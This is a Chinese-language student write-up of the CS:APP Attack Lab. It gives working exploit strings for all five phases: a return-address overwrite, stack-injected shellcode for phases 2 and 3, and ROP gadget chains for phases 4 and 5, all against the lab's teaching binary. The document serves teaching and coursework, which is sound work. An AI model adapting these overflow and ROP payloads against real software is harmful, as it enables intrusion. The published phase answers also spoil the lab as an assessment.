


# 0.  准备

1. 下载实验包

资源链接是`http://csapp.cs.cmu.edu/3e/target1.tar`, 说明文档是`http://csapp.cs.cmu.edu/3e/attacklab.pdf`

```bash
wget http://csapp.cs.cmu.edu/3e/target1.tar
tar vxf target1.tar
cd target1
wget http://csapp.cs.cmu.edu/3e/attacklab.pdf
```

2. 仔细阅读说明文档!重点关注文档中 `advice` 部分的说明, 还要学会 `./hex2raw` 的使用

3. 了解栈:栈在操作系统是从高地址向低地址增长的.



4. 函数调用:栈中的每个栈帧都是一个函数的体现,当函数调用时,一般会在栈上分配空间,出现例如`sub 0x8, %rsp`的指令,这个指令的意思就是在栈上分配8个字节的数据.每个栈中保存的是该函数需要的数据空间等.而且由于函数的调用方式是将返回地址写入到栈中,这使得我们有很大的操作空间对栈进行攻击.

5. callq和retq
* callq是调用语句,是指向相对应的函数, 这个指令的操作就是将返回地址压入栈中,并跳转到函数的地址开始指向指令
* retq是返回语句,是在函数执行结束后进行的运算,实际上是一个弹栈操作,将返回地址弹入%rip中,并在该地址开始继续执行

由于retq的特性,我们可以修改这个返回地址,使其执行我们希望执行的函数,这就是对程序进行攻击的原理

**为了降低难度,phase1~3没有采用栈随机初始化技术,而phase4~5则是使用了这个技术**

6. 获得汇编指令对应的二进制字节

```bash
# 1. 编写.s文件,文件中包含需要的指令即可
# 2. 编译指令
gcc -c code.s
# 3. 使用objdump进行反汇编
objdump -d code.o [> file]
# 合在一起
gcc -c code.s && objdump -d code.o [> file]
```
# 程序理解

整个程序, 我们只需要重点关注一个函数 `getbuf`

```s
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

getbuf在栈中分配了40字节的数据,这40字节的数据一旦溢出,就会污染其ret的返回地址.原因:
1. 栈是从高地址向低地址增长的,因此ret的返回地址是在高地址处,而写入数据则是从低地址开始写入的,因此会污染返回地址
2. 没有使用金丝雀防止溢出

从调用`Gets`传参就可以知道,空间的起始位置在栈顶处.
> ps:Gets是对gets的封装,其调用与gets一样 `gets(char *)`

在gdb中可以通过`x /40dw $rdi`查看空间分配,其形式上如下图所示



因此我们只需要输入字符,使地址 `0x401764` 变为我们希望的地址即可

# phase_1:简单的字符串溢出

phase_1要求通过字符串溢出的方式跳转至touch1函数,实际上是非常简单的操作

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
c0 17 40 00
00 00 00 00
```

需要注意的是,touch1的地址是`0x00000000004017c0`, 由于hex2raw的读入方式,需要按照小端的方式写入,因此要注意字节顺序

# phase_2:运行栈上的代码

一般而言,程序运行的代码都是在代码段,代码段存储着各个指令,栈和堆只不过是用来存储数据,但是我们可以通过修改跳转地址,使程序读取栈上的字节进行运行,这里就是这样堆程序进行攻击的,具体为以下几步:
1. 通过修改ret的返回地址,使其指向栈
2. 在栈的对应地址插入需要的代码,使其能够传递寄存器值和进行ret调用

需要的汇编指令如下:
```s
movq  $0x59b997fa, %rdi 
pushq $0x4017ec
retq
```

进行反汇编得到指令
```s
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
```

此时只需要重定向返回地址即可,因此最后的结果为

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00
78 dc 61 55
```

# phase_3:栈数据被覆盖

phase3与phase2很类似,不同之处有2:
1. 需要传递指针,而不是数字,因此需要寻找空间写入字符,并将字符出首地址作为参数传入
2. touch3文件中存在对栈数据的覆盖,因此需要寻找合适的地方写入字符

这里同样需要考虑栈的情况, touch3中调用了函数hexmatch, hexmatch函数中有这样一条语句`add $0xffffffffffffff80,%rsp`, `0x$0xffffffffffffff80`是负数,即-128,这句话的意思实际上等价于`sub 128, %rsp`, 至于为什么不用,不是很清楚.一般情况是需要计算栈顶位置,然后在栈顶处进行分配,我则直接选择将数据向栈底靠近,使得能够避免被覆盖

使用的汇编代码如下:
```
movq  $0x5561dca8, %rdi
pushq $0x4018fa
retq
```

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00
78 dc 61 55
00 00 00 00
35 39 62 39
39 37 66 61
00 00 00 00
```

# phase_4:ROP面向ret编程

由于栈随机初始化和可执行区域的限制,程序并不被运行在栈中进行执行,因此我们只能使用已存在的代码进行攻击.实际上汇编指令只是一串串字节流而已,因此我们可以从已有的代码中面向ret进行编程

如:
```s
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

其中 `48 89 c7` 是 `mov %rax, %rdi`, 如果我们从`0x400f18`处开始执行,就可以实现ROP了.

因此需要根据这样的片段进行执行.

有一个问题就是,我们无法直接操作堆栈,应该如何传递数据呢?这里利用提供的farm函数,在其中找到popq和mov操作,这样就可以完成数据从传递了

利用Gets写入字符串即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 # pop函数的地址
fa 97 b9 59 00 00 00 00 # 被pop的数据
a2 19 40 00 00 00 00 00 # mov函数的地址
ec 17 40 00 00 00 00 00 # touch2函数
```

# phase_5:多函数跳转

phase5需要实现phase3的功能,这就需要我们能够定位堆栈,但是由于栈随机初始化的问题,我们没办法向内存中写入固定地址.

因此需要查找提供的众多工具中是否存在可用的函数

```s
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

利用这个函数就可以配合popq写入我们希望的数据了

此外,为了写入rsi,还需要找到rsi的写入顺序,最终发现在 eax->edx->ecx->exi, 另外还需要有堆栈地址,因此也存在 rsp->rax的写入函数,按照这个顺序组织即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # rsp->rax
a2 19 40 00 00 00 00 00 # rax->rdi
cc 19 40 00 00 00 00 00 # popq rax
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00 # eax->edx
34 1a 40 00 00 00 00 00 # edx->ecx
27 1a 40 00 00 00 00 00 # ecx->esi
d6 19 40 00 00 00 00 00 # add_xy
a2 19 40 00 00 00 00 00 # rax->rdi
fa 18 40 00 00 00 00 00 # touch3
35 39 62 39 39 37 66 61 # 59b997fa
00 00 00 00 00 00 00 00 # /0

```

